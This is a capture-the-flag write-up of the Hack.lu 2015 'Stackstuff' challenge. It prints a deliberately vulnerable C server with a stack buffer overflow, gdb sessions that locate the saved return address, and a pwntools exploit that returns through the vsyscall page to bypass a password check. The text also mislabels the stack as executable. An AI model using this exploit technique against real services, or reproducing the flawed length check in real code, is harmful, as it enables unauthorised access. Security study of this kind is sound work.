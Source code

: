 ```yaml
---
title:      Hack.lu 2015 - Stackstuff 150
author:     Alessandro "q3_C0d3" Guagnelli
date:       2015-10-23 09:00:00
summary:    Stuck overflow with PIE
categories: Hack.lu 2015 Exploitable
tags:
 - Hack.lu 2015
 - Exploitable
 - Stack overflow
---
```

> Welcome to the Progressive Secure Coding course! Here, you will learn how to properly secure your software without making it too slow. For example, you should use C. And compile your code for 64bit, because then you don't need stack cookies, the pointers are random enough.
Test your attack on a box with Linux >=3.4!
Connect to school.fluxfingers.net:1514








This challenge provided us with the executable and the source code. Let's analyze the binary and see what we find out:
    
    $ file hackme
    hackme: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=f46fbf9b159f6a1a31893faf7f771ca186a2ce8d, not stripped
    $ checksec.sh --file hackme
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   hackme

So, we have executable stack, no canary and PIE enabled. We don't have to decompile the executable, since we are given the source code, and we can easily find the vulnerability:
{% highlight C%}
// gcc -o hackme hackme.c -fPIE -pie -Wall -fomit-frame-pointer

#include <stdio.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define PORT 1514

int negchke(int n, const char *err) {
  if (n < 0) {
    perror(err);
    exit(1);
  }
  return n;
}

char real_password[50];

int check_password_correct(void) {
  char buf[50] = {0};

  puts("To download the flag, you need to specify a password.");
  printf("Length of password: ");
  int inlen = 0;
  if (scanf("%d\n", &inlen) != 1) {
    // peer probably disconnected?
    exit(0);
  }
  if (inlen <= 0 || inlen > 50) {
    // bad input length, fix it
    inlen = 90;
  }
  if (fread(buf, 1, inlen, stdin) != inlen) {
    // peer disconnected, stop
    exit(0);
  }
  return strcmp(buf, real_password) == 0;
}

void require_auth(void) {
  while (!check_password_correct()) {
    puts("bad password, try again");
  }
}

void handle_request(void) {
  alarm(60);
  setbuf(stdout, NULL);

  FILE *realpw_file = fopen("password", "r");
  if (realpw_file == NULL || fgets(real_password, sizeof(real_password), realpw_file) == NULL) {
    fputs("unable to read real_password\n", stderr);
    exit(0);
  }
  fclose(realpw_file);

  puts("Hi! This is the flag download service.");
  require_auth();

  char flag[50];
  FILE *flagfile = fopen("flag", "r");
  if (flagfile == NULL || fgets(flag, sizeof(flag), flagfile) == NULL) {
    fputs("unable to read flag\n", stderr);
    exit(0);
  }
  puts(flag);
}

int main(int argc, char **argv) {
  if (strcmp(argv[0], "reexec") == 0) {
    handle_request();
    return 0;
  }

  int ssock = negchke(socket(AF_INET6, SOCK_STREAM, 0), "unable to create socket");
  struct sockaddr_in6 addr = {
    .sin6_family = AF_INET6,
    .sin6_port = htons(PORT),
    .sin6_addr = /*IN6ADDR_LOOPBACK_INIT*/ IN6ADDR_ANY_INIT
  };
  int one = 1;
  negchke(setsockopt(ssock, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one)), "unable to set SO_REUSEADDR");
  negchke(bind(ssock, (struct sockaddr *)&addr, sizeof(addr)), "unable to bind");
  negchke(listen(ssock, 16), "unable to listen");

  signal(SIGCHLD, SIG_IGN); /* no zombies */

  while (1) {
    int client_fd = negchke(accept(ssock, NULL, NULL), "unable to accept");
    pid_t pid = negchke(fork(), "unable to fork");
    if (pid == 0) {
      close(ssock);
      negchke(dup2(client_fd, 0), "unable to dup2");
      negchke(dup2(client_fd, 1), "unable to dup2");
      close(client_fd);
      negchke(execl("/proc/self/exe", "reexec", NULL), "unable to reexec");
      return 0;
    }
    close(client_fd);
  }
}
{% endhighlight %}

In short, our service compares the password we enter with the real password read from the file, and if the password is correct it gives us the flag. I wonder if there's a way to skip that require_auth() function... Wait, are you sure that you really want to read 90 characters on a 50 characters buffer if the user supply a wrong password length? I thought we were here to learn secure coding, but an attacker can easily control the saved RIP and control the program flow!

# Analyzing the vulnerability

The following python script will send 90 characters to the service.
{% highlight python%}
from pwn import *

host = 'localhost'
port = 1514

conn = remote(host, port)
payload = cyclic(90)
conn.recvuntil('password: ')
conn.sendline('55')
raw_input()
conn.send(payload)
print conn.recv(4000)
{% endhighlight %}

To understand how many characters we have to push before the saved RIP, we're gonna need gdb. We will use it to connect to the service just after we send the payload to analyze the stack just before the check_password_correct() function returns:

    $ ps -a | grep exe
    8214 pts/1    00:00:00 exe
    $ sudo gdb attach 8214
    gdb-peda$ disas check_password_correct 
    Dump of assembler code for function check_password_correct:
    0x00007f4713575ed2 <+0>: sub    rsp,0x58
    [...]
    0x00007f4713575fa8 <+214>: call   0x7f4713575c80 <strcmp@plt>
    0x00007f4713575fad <+219>: test   eax,eax
    0x00007f4713575faf <+221>: sete   al
    0x00007f4713575fb2 <+224>: movzx  eax,al
    0x00007f4713575fb5 <+227>: add    rsp,0x58
    0x00007f4713575fb9 <+231>: ret
    
    gdb-peda$ b *check_password_correct + 231
    Breakpoint 1 at 0x7f4713575fb9
    gdb-peda$ continue

    Breakpoint 1, 0x00007f4713575fb9 in check_password_correct ()
    gdb-peda$ x/10gx $rsp
    0x7ffd46f25108: 0x6161617461616173  0x6161617661616175
    0x7ffd46f25118: 0x00007f98631f6177  0x00000000ffffffff
    0x7ffd46f25128: 0x00007ffd46f25101  0x00007ffd46f272b6
    0x7ffd46f25138: 0x0000000000000000  0x00007ffd46f252c8
    0x7ffd46f25148: 0x00007f98631f8469  0x00007ffd46f272b6

The first thing we notice here is that we overwrote the return address from check_password_correct with 0x6161617461616173, that is the hex for 'aaataaas'. Using cyclic_find we can easily understand how many characters we have to write before our forged RIP:

    >>> from pwn import *
    >>> unhex('6161617461616173')
    'aaataaas'
    >>> cyclic_find('saaa')
    72

So, we have to write 72 characters before the RIP.
We can also notice another thing: 0x7ffd46f25118 is very similar to the return address from the require_auth() function, but with the last 2 bytes being overwritten. We can easily verify this:

    gdb-peda$ disas handle_request
    Dump of assembler code for function handle_request:
    [...]
    0x00007f98631f807a <+160>: lea    rdi,[rip+0x3a7]        # 0x7f98631f8428
    0x00007f98631f8081 <+167>: call   0x7f98631f7bc0 <puts@plt>
    0x00007f98631f8086 <+172>: call   0x7f98631f7fba <require_auth>
    0x00007f98631f808b <+177>: lea    rsi,[rip+0x36d]        # 0x7f98631f83ff
    0x00007f98631f8092 <+184>: lea    rdi,[rip+0x3b6]        # 0x7f98631f844f
    0x00007f98631f8099 <+191>: call   0x7f98631f7cd0 <fopen@plt>
    0x00007f98631f809e <+196>: mov    QWORD PTR [rsp+0x40],rax
    0x00007f98631f80a3 <+201>: cmp    QWORD PTR [rsp+0x40],0x0
    0x00007f98631f80a9 <+207>: je     0x7f98631f80c5 <handle_request+235>
    [...]

Good! We're almost there! On the stack we have 0x00007f98631f6177, and we want to return to 0x00007f98631f808b, that is, just after out require_auth() function. We know that pages are aligned, so we know that the last 12 bits of the address where we want to jump to are fixed to 0x08b. We overwrite 16 bits, so we are left with 4 unknown bits... Well, I think that a little of brute force won't be so bad, after all. Anyway, we still have stuff on the stack (or should I say stackstuff?) that we want to get rid of. If only I could make a pop-ret here!

# Looking for something useful

We know that PIE is enabled, so addresses are changing everytime, but after all we don't need that much: pop-ret ret-ret are enough. After a few hours of digging, I found something that could easily bring us to get that damn flag. Running a couple of time the executable and mapping memory sections, I found that the vsyscall memory area had its address fixed

    gdb-peda$ info proc mappings
    process 8329
    Mapped address spaces:

              Start Addr           End Addr       Size     Offset objfile
          0x7f9862c07000     0x7f9862dc7000   0x1c0000        0x0 /lib/x86_64-linux-gnu/libc-2.21.so
          [...]
          0x7ffd46f80000     0x7ffd46f82000     0x2000        0x0 [vdso]
      0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]

I hope that vsyscall has what we're looking for...

    gdb-peda$ X/20i 0xffffffffff600000
       0xffffffffff600000:  mov    rax,0x60
       0xffffffffff600007:  syscall 
       0xffffffffff600009:  ret    
       0xffffffffff60000a:  int3   
       0xffffffffff60000b:  int3   

Bingo! That's exactly what we need: a couple of syscall, and we're good to go. So we're gonna to return twice to 0xffffffffff600000 and then to our handle_request(), just after the require_auth() call! This is the final exploit (remember that we have to bruteforce 16 bits):
{% highlight python%}
from pwn import *

host = 'school.fluxfingers.net'
port = 1514

target = p64(0xffffffffff600000)
payload = 'a' * 72 + 2 * target + '\x8b\x10'
for i in range(0, 16):
  try:
    conn = remote(host, port)
    conn.recvuntil('password: ')
    conn.sendline('55')
    conn.send(payload)
    print conn.recv(4000)
    break
  except:
    conn.close()
    continue
{% endhighlight %}

And we have the flag: flag{MoRE_REtuRnY_tHAn_rop}
